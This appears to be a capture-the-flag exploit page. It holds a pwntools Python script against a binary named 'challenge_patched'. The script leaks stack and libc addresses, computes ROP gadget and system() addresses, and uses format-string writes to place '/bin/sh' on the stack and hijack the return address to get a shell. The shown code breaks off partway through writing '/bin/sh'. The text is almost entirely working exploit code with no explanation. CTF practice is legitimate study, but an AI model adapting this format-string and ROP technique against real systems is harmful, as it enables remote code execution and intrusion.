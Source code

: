 ```python
# Binary filename
exe = "./challenge_patched"
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = "info"
warnings.filterwarnings(
    "ignore",
    category=BytesWarning,
    message="Text is not bytes; assuming ASCII, no guarantees.",
)

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()
libc = ELF("./libc.so.6", checksec=False)

r.sendlineafter(b">> ", "1")
resp = r.recvline().strip()
print(resp)

stack_addr = int(resp.split(b" ")[0], 16)
fgets = int(resp.split(b" ")[1], 16)
# print(f"stack address: {hex(stack_addr)}, fgets: {hex(fgets)}")

offset = 6
POP_RDI_OFFSET = 0x2A3E5  # offset of "pop rdi ; ret" in libc
RET_OFFSET = 0x29139  # offset of "ret" in libc

BINSH = stack_addr + 176  # write "/bin/sh" here
MAIN_RET = (
    stack_addr + 56
)  # overwrite this address to address of "pop rdi; ret" instruction
BINSH_Location = MAIN_RET + 8  # overwrite this address to address of "/bin/sh"
RET_Location = MAIN_RET + 16  # overwrite this address to address of "ret" instruction
SYSTEM_Location = MAIN_RET + 24  # overwrite this address to address of "system()" call

libc.addr = fgets - libc.symbols["fgets"]
POP_RDI = libc.addr + POP_RDI_OFFSET
RET = libc.addr + RET_OFFSET
SYSTEM = libc.addr + libc.symbols["system"]

# print(f"/bin/sh: {hex(BINSH)}, Main return: {hex(MAIN_RET)}, Pointer to /bin/sh: {hex(BINSH_Location)}")
# print(f"Libc base: {hex(libc.addr)}, RET: {hex(RET)}, POP_RDI: {hex(POP_RDI)}, SYSTEM: {hex(SYSTEM)}")

# payload = fmtstr_payload(offset, {location : value})
def make_and_send_payload(offset, where, what, size):
    payload = fmtstr_payload(offset, {where: what}, write_size=size)
    r.sendlineafter(b">> ", "2")
    # print(f"Wrote: {what}")
    r.sendlineafter(b">> ", payload)

# write /bin/sh to stack location BINSH
print(f"WRITING /bin/sh to {hex(BINSH)}")
make_and_send_payload(offset, BINSH, b"/", "byte")
make_and_send_payload(offset, BINSH + 1, b"b", "byte")
make_and_send_payload(offset, BINSH + 2, b"i", "byte")
make_and_send_payload(offset, BINSH + 3, b"n", "byte")
make_and_send_payload(offset, BINSH + 4, b"/", "byte")
make_and_send_payload(offset, BINSH + 5, b"s", "byte")
```